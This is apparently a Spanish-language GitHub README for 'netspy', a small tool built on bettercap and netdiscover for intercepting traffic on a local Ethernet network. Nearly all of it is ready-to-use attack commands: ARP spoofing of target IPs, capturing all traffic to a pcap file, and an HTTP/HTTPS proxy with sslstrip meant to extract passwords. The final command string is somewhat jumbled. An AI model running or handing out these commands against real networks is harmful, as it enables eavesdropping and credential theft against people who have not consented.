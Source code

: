 # Interceptacion Ethernet

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/MITM.png">
#
<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

www.hackingyseguridad.com
